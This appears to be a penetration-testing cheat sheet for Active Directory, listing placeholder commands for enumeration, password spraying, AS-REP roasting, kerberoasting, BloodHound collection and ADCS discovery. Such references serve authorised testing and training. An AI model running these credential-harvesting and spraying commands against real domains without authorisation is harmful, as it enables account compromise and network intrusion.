```yaml
---
icon: windows
---
```


# Active Directory

## No credentials

### Enumeration

```sh
netexec smb <target>
enum4linux -a <target>
nmap -n -sV --script "ldap* and not brute" -p 389 <dc_ip>
ldapsearch -x -H <dc_ip> -s base
```

### Zone transfer

{% code overflow="wrap" %}
```sh
dig axfr <domain> @<dc_ip>
```
{% endcode %}

### Shares

```bash
netexec smb <IP> -u '' -p '' --shares
netexec smb <IP> -u 'guest' -p '' --shares
```

### Enumerate users

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> --users
nxc smb <dc_ip> --rid-brute 10000
```
{% endcode %}

```bash
kerbrute userenum -d <domain> <users.txt>
```

### Timeroast

{% code overflow="wrap" %}
```sh
timeroast.py <dc_ip>
```
{% endcode %}

## Valid user (no password)

### Password spray

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> -u <users.txt> -p <passwords.txt> --no-bruteforce --continue-on-success
```
{% endcode %}

### ASREProast <a href="#asreproast" id="asreproast"></a>

{% code overflow="wrap" %}
```sh
nxc ldap <dc_ip> -u <users.txt> -p '' --asreproast <output.txt>
```
{% endcode %}

{% code overflow="wrap" %}
```bash
GetNPUsers.py <domain>/ -usersfile <users.txt>
```
{% endcode %}

### Blind kerberoast

{% code overflow="wrap" %}
```sh
GetUserSPNs.py -no-preauth '<asrep_user>' -usersfile <users.txt> -dc-host <dc_ip> <domain>/
```
{% endcode %}

## Valid credentials

### List all users

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> -u '<user>' -p '<password>' --users
```
{% endcode %}

### Enumerate SMB shares

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> -u '<user>' -p '<password>' -M spider_plus
```
{% endcode %}

{% code overflow="wrap" %}
```sh
smbclient.py '<user>:<passwod>@<dc_ip>'
```
{% endcode %}

### BloodHound

{% code overflow="wrap" %}
```sh
bloodhound-ce-python -d '<domain>' -u '<user>' -p '<password>' [-ns '<dc_ip>'] -c All --zip
```
{% endcode %}

### Enumerate LDAP

{% code overflow="wrap" %}
```sh
ldapdomaindump.py -u '<domain>\<user>' -p '<password>' -o <output_folder> '<dc_ip>'
```
{% endcode %}

### Enumerate ADCS

{% code overflow="wrap" %}
```sh
certipy find -u '<user>@<domain>' -p '<password>' -dc-ip '<dc_ip>' -stdout
```
{% endcode %}

### Kerberoast

{% code overflow="wrap" %}
```bash
nxc ldap <dc_ip> -u '<user>' -p '<password>' --kerberoasting <output.txt>
```
{% endcode %}

{% code overflow="wrap" %}
```sh
GetUserSPNs.py -request -dc-ip <dc_ip> '<domain>/<user>:<password>'
```
{% endcode %}

{% hint style="danger" %}
If you find this error from Linux: `KRB_AP_ERR_SKEW(Clock skew too great)` it's because of your local time, you need to synchronise the host with the DC.

{% code overflow="wrap" fullWidth="false" %}
```bash
sudo ntpdate <dc_ip>
```
{% endcode %}
{% endhint %}

